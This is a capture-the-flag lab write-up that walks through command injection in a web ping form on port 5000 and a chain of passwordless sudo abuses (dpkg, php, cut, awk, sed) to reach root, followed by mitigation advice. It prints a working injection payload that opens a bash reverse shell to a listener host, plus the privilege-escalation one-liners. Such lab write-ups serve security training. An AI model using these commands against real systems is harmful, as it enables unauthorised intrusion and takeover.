# Ping Pong

## Executive Summary

This intermediate-level laboratory constitutes a comprehensive exploitation and privilege escalation exercise. The objective is to demonstrate how chained vulnerabilities, including command injection and insecure `sudo` configurations, can enable an attacker to obtain complete privileged access to the system.

## Description

**Level:** Intermediate  
**Objective:** Gain root access through privilege escalation  
**Key Vulnerabilities:** Command injection, inadequate `sudo` configuration (NOPASSWD), exploitable binaries

---

## 1. Initial Reconnaissance

The laboratory begins with port scanning using `nmap`:



The scan reveals open ports 80, 443, and 5000, all running HTTP services. Upon examining each service, no relevant findings emerge until port 5000, which hosts a connectivity verification system via `ping`.

---

## 2. Initial Exploitation: Command Injection

### 2.1 Vulnerability Identification

Accessing the web interface on port 5000 reveals a form that executes `ping` commands:



By testing various operators, the semicolon `;` character is discovered to act as an instruction separator, allowing the execution of additional commands in a chained manner. This is confirmed by executing the `id` command:



### 2.2 Obtaining a Reverse Shell

The following command is executed to obtain a reverse shell:

```bash
172.17.0.1; /bin/bash -c "/bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"
```

This command sends an interactive shell to the attacker's machine on port 4444.

**Note:** On the attacker's machine, it is necessary to establish a listener with the command `nc -lnvp 4444`

### 2.3 Shell Stabilization

The obtained shell is stabilized via `tty`:



---

## 3. Chained Privilege Escalation

### 3.1 Analysis of Available Users

The `/etc/passwd` file is examined to identify users with shell access:



The following users are identified: `freddy` (current user), `bobby`, `gladys`, `chocolatito`, `theboss`, and `root`.

### 3.2 From Freddy to Bobby

The permissions of `freddy` are verified using `sudo -l`:



The output indicates that `freddy` can execute the `dpkg` binary as `bobby` without a password. According to GTFObins, this binary can be exploited with the `-l` flag to open a shell:

```bash
sudo -u bobby dpkg -l
```

Within the pager, the following command is executed:

```
!/bin/bash
```

This opens a shell with `bobby` permissions:



### 3.3 From Bobby to Gladys

Permissions are verified again with `sudo -l`:



It is revealed that `bobby` can execute the `php` binary as `gladys` without a password. Exploiting this capability:

```bash
sudo -u gladys php -r 'system("/bin/bash -i");'
```

This provides access as `gladys`:



### 3.4 From Gladys to Chocolatito

While investigating directories, an interesting file is identified in `/opt` that presumably contains `chocolatito`'s credentials:



Upon reviewing `gladys`'s permissions with `sudo -l`, it is discovered that she can use the `cut` binary as `chocolatito` without a password:

```bash
sudo -u chocolatito cut -d: -f1 /opt/password_file
```

Through this exploitation, `chocolatito`'s password is obtained and a session is started as this user:



### 3.5 From Chocolatito to Theboss

Permissions are reviewed again with `sudo -l`:



It is revealed that `chocolatito` can execute `awk` as `theboss` without a password. According to GTFObins, exploitation is performed as follows:



By executing the corresponding command, access as `theboss` is obtained:



### 3.6 From Theboss to Root

The permissions of `theboss` are verified:



It is discovered that `theboss` can execute `sed` as `root` without a password. GTFObins provides an exploitation method:



By executing this command, root access is finally obtained:



---

## 4. Summary of Exploited Vulnerabilities

| Vulnerability | Location | Impact |
|---|---|---|
| Command Injection | Port 5000 - Ping Service | Arbitrary command execution |
| Insecure `sudo` Configuration | Sudoers configuration | Privilege escalation without password |
| Exploitable Binaries (dpkg, php, cut, awk, sed) | Multiple locations | Permission restriction bypass |

---

## 5. Mitigation Recommendations

### 5.1 Input Validation (Command Injection)
**Vulnerability:** The service on port 5000 does not adequately validate or sanitize user input.

**Recommendation:** Implement strict whitelist validation for allowed characters. Validate that input contains only valid IP addresses, rejecting special characters such as `;`, `|`, `&`, `>`, `<`, etc. Use safe process invocation functions that do not require shell interpretation (e.g., `execve()` in C instead of `system()`).

### 5.2 Insecure Sudo Configuration (NOPASSWD)
**Vulnerability:** Multiple entries in the `sudo` configuration are set with `NOPASSWD`, enabling privilege escalation without authentication.

**Recommendation:** Remove all unnecessary `NOPASSWD` permissions. If privilege delegation is imperative, require authentication via password. Regularly audit the `/etc/sudoers` file to identify excessive privileges. Consider alternative solutions such as `sudo` with PAM plugin or role-based access control (RBAC).

### 5.3 Exploitable Binaries via GTFObins
**Vulnerability:** Binaries such as `dpkg`, `php`, `cut`, `awk`, and `sed` have command execution capabilities that can be exploited when executed with elevated privileges.

**Recommendation:** Restrict delegation of binaries with dangerous capabilities. For tools like `dpkg`, limit operations to specific ones through more restrictive `sudo` flags. Consider using safer alternatives like `fakeroot` for operations requiring privileges. Regularly audit critical binaries for capabilities and maintain usage logs.

### 5.4 Credential Storage in Local Files
**Vulnerability:** Credentials are stored in plaintext in files with inadequate read permissions in `/opt/`.

**Recommendation:** Never store credentials in plaintext in local files. Implement a centralized secrets manager (e.g., HashiCorp Vault, AWS Secrets Manager). Encrypt any sensitive data stored locally. Apply the principle of least privilege to file permissions containing sensitive information.

### 5.5 Chained Privilege Escalation
**Vulnerability:** The laboratory architecture permits multiple escalation points which, when chained, lead to complete system compromise.

**Recommendation:** Implement a defense-in-depth strategy. Reduce the number of system users to the essential minimum. Establish strict limits on privilege delegation. Implement continuous logging and monitoring of changes to `sudo` configuration and execution of sensitive binaries. Conduct periodic security audits of the access control system.
